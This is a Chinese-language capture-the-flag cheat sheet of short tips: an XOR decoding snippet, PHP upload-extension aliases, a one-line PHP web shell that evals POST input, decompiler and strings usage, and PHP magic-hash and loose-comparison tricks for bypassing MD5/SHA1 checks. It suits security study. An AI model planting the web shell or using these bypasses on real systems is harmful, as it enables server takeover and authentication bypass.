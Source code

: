 ##  将整数强制拆分为 string
```cpp
#include<cstdio>
#include<cstring>
#include<string>
using namespace std;
int main(){
	long long v7=28537194573619560;
	char *p=(char *)&v7;//chr指针
	char str[30];
	strcpy(str,":\"AL_RT^L*.?+6/46");
	for(int i=0;i<19;i++){
		str[i]=p[i%7]^str[i];
		printf("%c",str[i]);
	}
	return 0;
}
```
-----

## php 文件别名
php2, php3, php4, php5, phps, pht, phtm, phtml
## 一句话木马
```php
<?php @eval($_POST['chopper']);?>
```
## uncompyle2 用法
```bash
py -2 uncompyle2 -o as.py as.pyc
```
## Strings 用法
`strings brave | grep -i key #-i 忽略大小写`
## 佛经解密
[佛经](http://keyfc.net/bbs/tools/tudoucode.aspx)
## PHP 中的 '='
![](http://ww1.sinaimg.cn/large/b12bdb25ly1ftogtt8qcsj216m13gdvk.jpg)
## md5碰撞  
根据==用法，0 == 字符串是成立的，从而可以绕过MD5检查。
```
QNKCDZO 
s878926199a 
s155964671a 
s214587387a 
s214587387a 
s878926199a 
s1091221200a 
s1885207154a 
aabC9RqS 
240610708 
aabg7XSs 
```
## md5() sha1()
 MD5() 和 SHA1() 不能处理数组,PHP中会返回 false 构造sha1(str1)===sha1(str2) str1!=str2 时可以构造数组绕过

## 实例
```php
<?php  
var_dump(md5('240610708') == md5('QNKCDZO'));  
var_dump(md5('aabg7XSs') == md5('aabC9RqS'));  
var_dump(sha1('aaroZmOk') == sha1('aaK1STfY'));  
var_dump(sha1('aaO8zKZF') == sha1('aa3OFF9m'));  
var_dump('0010e2' == '1e3');  
var_dump('0x1234Ab' == '1193131');  
var_dump('0xABCdef' == ' 0xABCdef');  
  
var_dump(0 == 'abcdefg');  
var_dump(1 == '1abcdef');  
?>
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTExNDM3NzI2MTFdfQ==
-->